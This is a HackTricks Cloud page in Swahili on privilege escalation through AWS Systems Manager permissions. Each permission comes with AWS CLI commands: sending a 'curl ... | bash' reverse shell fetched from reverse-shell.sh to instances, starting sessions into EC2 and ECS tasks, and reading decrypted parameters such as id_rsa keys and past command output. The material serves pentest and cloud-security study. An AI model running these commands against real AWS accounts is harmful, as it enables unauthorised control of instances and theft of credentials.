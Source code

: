 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Kwa maelezo zaidi kuhusu SSM angalia:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa **`ssm:SendCommand`** anaweza **kutekeleza amri katika mifano** inayotumia Amazon SSM Agent na **kuathiri IAM Role** inayotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Katika kesi unapotumia mbinu hii kuongeza mamlaka ndani ya EC2 instance ambayo tayari imeathiriwa, unaweza tu kukamata rev shell kwa ndani kwa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents zinazotembea.

### `ssm:StartSession`

Mshambuliaji mwenye ruhusa **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH katika mifano** inayotembea yenye Amazon SSM Agent na **kuathiri IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Ili kuanza kikao unahitaji **SessionManagerPlugin** iliyosakinishwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Athari Zinazoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents inayoendesha.

#### Privesc kwa ECS

Wakati **ECS tasks** zinapokimbia na **`ExecuteCommand` imewezeshwa** watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` ili **kutekeleza amri** ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuunda channel salama kati ya kifaa unachotumia kuanzisha amri ya “_exec_” na kontena lengwa na SSM Session Manager. (SSM Session Manager Plugin inahitajika ili hii ifanye kazi)\
Hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata shell ndani ya ECS tasks** na chaguo hicho kikiwa kimewezeshwa kwa kukimbia:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa `ECS`IAM roles zilizounganishwa na kazi zinazotembea zikiwa na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa **`ssm:ResumeSession`** anaweza ku-**anzisha tena kikao kama cha SSH katika mifano** inayotembea na Amazon SSM Agent ikiwa na hali ya kikao cha SSM **kilichounganishwa** na **kuathiri IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents zinazotembea na vikao vilivyokatishwa.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizoelezwa atakuwa na uwezo wa kuorodhesha **SSM parameters** na **kuvisoma kwa maandiko wazi**. Katika vigezo hivi unaweza mara nyingi **kupata taarifa nyeti** kama funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya vigezo.

### `ssm:ListCommands`

Mshambuliaji mwenye ruhusa hii anaweza kuorodhesha **amri** zote zilizotumwa na kwa matumaini kupata **taarifa nyeti** juu yao.
```
aws ssm list-commands
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza orodhesha **amri** zote zilizotumwa na **kusoma matokeo** yaliyotolewa akitumaini kupata **taarifa nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya matokeo ya amri.

### Codebuild

Unaweza pia kutumia SSM kuingia ndani ya mradi wa codebuild unaojengwa:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
